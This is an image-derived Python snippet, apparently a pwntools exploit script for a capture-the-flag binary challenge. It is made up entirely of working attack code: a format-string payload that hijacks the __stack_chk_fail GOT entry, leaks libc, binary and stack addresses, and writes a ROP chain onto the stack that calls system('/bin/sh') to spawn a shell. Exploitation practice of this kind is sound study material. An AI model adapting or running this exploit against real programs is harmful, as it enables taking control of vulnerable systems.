 ```py
    missing_byte = 0xd

    write_addr_offset = 15
    overflow_offset = 0x8*10 + 1

    payload = f'%{(elf.sym.vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%17$hn'.encode()
    payload = payload.ljust(overflow_offset, b'A')
    payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
    payload += ((missing_byte << 4)).to_bytes(1, 'big')
    send(payload, line=False)

    #------------LEAK STUFF-----------#

    sleep(0.25)

    libc_leak_offset = 3
    elf_leak_offset = 9
    stack_leak_offset = 22
    send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode(), line=False)
    leak = p.recvrepeat(1)
    # print(leak)

    # if input().strip() == 'q':
    #     p.close()
    #     continue

    if b'Segmentation fault' in leak:
        p.close()
        continue

    leak = leak[leak.index(b'A'):]
    leak = leak[leak.index(b'7'):]


    libc_leak = int(leak[:12], 16)
    libc.address = libc_leak - 0xf3a61 - 0x28000

    elf_leak = int(leak[13:25], 16)
    elf.address = elf_leak - 0x247 - 0x1000

    stack_leak = int(leak[26:38], 16)
    next_frame_rsp = stack_leak + (0x7fff2729a160 - 0x7fff2729a2f8)

    #---------WRITE ROP CHAIN---------#

    # totally could've just used the BOF here oops

    binsh = next(libc.search(b"/bin/sh\x00"))
    rop = ROP(elfs=[libc, elf])
    rop.raw(rop.ret.address)
    rop.rdi = binsh
    rop.call('system')
    payload = b'A'
    writes = {next_frame_rsp + 24 + i*8: rop.build()[i] for i in range(len(rop.build()))}
    payload += fmtstr_payload(offset=7, numbwritten=1, writes=writes, write_size='short')

    send(payload, line=True)

    sleep(0.25)

    payload = b'A'
    send(payload, line=False)
```